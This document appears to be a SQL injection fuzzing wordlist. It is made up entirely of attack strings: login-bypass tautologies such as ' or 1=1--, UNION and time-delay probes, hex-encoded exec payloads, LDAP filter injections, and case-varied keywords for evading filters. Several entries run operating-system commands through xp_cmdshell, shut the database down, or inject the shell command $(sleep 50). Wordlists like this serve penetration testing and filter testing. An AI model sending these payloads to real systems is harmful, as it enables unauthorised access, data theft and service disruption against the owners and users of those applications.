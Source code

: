 '
"
#
--
--+
--';
' --
' ; 
' or ''='
' or 'x'='x
" or "x"="x
') or ('x'='x
' or 1=1
' or 1=1--
' or 1=1 or ''='
' or 1=1/*
' or 1=1#
' or '1'='1
' or '1'='1'--
' or 2>1
' or 3=3
' or a=a
' or username like '%
' or user like '%
' or uname like '%
' or userid like '%
' or uid like '%
" or 1=1
" or 1=1--
" or 1=1 or ""="
" or a=a
x' or 1=1
x' or 1=1 or 'x'='y
x' AND userid IS NULL; --
admin'--
admin' or '1'='1
' UNION SELECT
' UNION ALL SELECT
' OR EXISTS (
' (select top 1
\x27UNION SELECT
1;SELECT *
1 OR 1=1
1' OR '1'='1
0 or 1=1
or 1=1
or 1=1--
or 0=0
or 0=0--
or a=a
or%201=1
or%201=1--
anandd
oorr
oroR
AND 1=1
OR 1=1
XOR 1=1
;
%3B
|
%7C
&
%26
!
%21
(
%28
)
%29
=
%3D
<
%3C
>
%3E
<>
%3C%3E
+
-
~
^
*
%2A
/
//
//*
*/*
/**/
%00
%0A
%0a
%0C
%0c
%0D
%0d
%0b
%a0
%20
%09
%df
%27
%22
%23
%2D%2D
@variable
,@variable
SELECT
SeLeCt
select 
INSERT
insERT
UPDATE
DELETE
DROP
CREATE
ALTER
DATABASE
database
FROM
from
WHERE
where
HAVING
having
GROUP BY
ORDER BY
order by
asc
desc
LIMIT
limit
LimIt
UNION
union
UNIon
JOIN
INTO
VALUES
SET
TABLE
COLUMN
SCHEMA
INFORMATION
information_schema
sys.schema_table_statistics_with_buffer
TABLE_SCHEMA
user
users
USER
VERSION
@@version
BENCHMARK
benchmark
SLEEP
sleep
SLEEp
WAITFOR DELAY '0:0:5'
SLEEP(5)
BENCHMARK(1000000,MD5(1))
handler
LIKE
like
LiKe
CAST
CAST()
CONCAT
concat
CONCAT_WS
concat_ws()
GROUP_CONCAT
group_concat
SUBSTRING
substring
MID
mid
ASCII
ascii
ORD
ord
BIN
bin
FORMAT
format
FLOOR
floor
RAND
rand()
INSTR
instr
REVERSE
EXTRACTVALUE
extractvalue
UPDATEXML
updatexml
PREPARE
EXEC
exec
exec xp
exec sp
exec master..xp_cmdshell
exec xp_regread
xp_cmdshell
sp_password
BFILENAME
LOAD_FILE
INFILE
OUTFILE
DUMPFILE
PROCEDURE
PROCEDURE ANALYSE()
DISTINCT
TRUNCATE
REPLACE
BEFORE
REGEXP
RLIKE
IN
in
CASE
case
WHEN
when
THEN
then
ELSE
else
END
end
IF
IFNULL
NULL
TRUE
FALSE
@
@@
%2F*
*%2F
%2F%2A
%2A%2F
%26%26
%7C%7C
%60
%2C
%27%20OR
%27%20or%201%3D1
%20or%201%3D1
%27%20or%201%3D1
%20%28sleep%2050%29
%20%27sleep%2050%27
char%4039%41%2b%40SELECT
&apos;%20OR
'sqlattempt1
(sqlattempt2)
*|
%2A%7C
*(|(mail=*))
%2A%28%7C%28mail%3D%2A%29%29
*(|(objectclass=*))
%2A%28%7C%28objectclass%3D%2A%29%29
'%20or%20''='
'%20or%20'x'='x
%20or%20x=x
')%20or%20('x'='x
' or 0=0 #
" or 0=0 #
or 0=0 #
' or 1=1 or ''='
" or 1=1 or ""="
' or a=a--
" or "a"="a
') or ('a'='a
") or ("a"="a
hi" or "a"="a
hi" or 1=1 --
hi' or 1=1 --
hi' or 'a'='a
hi') or ('a'='a
hi") or ("a"="a
'hi' or 'x'='x';
PRINT
PRINT @@variable
'; shutdown --
'; exec master..xp_cmdshell 'ping 172.10.1.255'--
t'exec master..xp_cmdshell 'nslookup www.google.com'--
'||UTL_HTTP.REQUEST
to_timestamp_tz
tz_offset
<>"'%;)(&+
'%20or%201=1
%20$(sleep%2050)
' and '' like '
' AnD '' like '
' or '' like '
' and '' like '%
' aND '' like '%
' and '' like ''--
' and 2>1--
' and 2>3--
') and ('x'='x
) and (1=1
'or''='
'or'='or'
a' or 1=1--
"a"" or 1=1--"
 or a = a
a' or 'a' = 'a
1 or 1=1
a' waitfor delay '0:0:10'--
1 waitfor delay '0:0:10'--
declare @q nvarchar (200) select @q = 0x770061006900740066006F0072002000640065006C00610079002000270030003A0030003A0031003000270000 exec(@q)
declare @s varchar(200) select @s = 0x77616974666F722064656C61792027303A303A31302700 exec(@s)
' or (EXISTS)
' AND 1=(SELECT COUNT(*) FROM tabname); --
' AND members.email IS NULL; --
' OR full_name LIKE '%Bob%
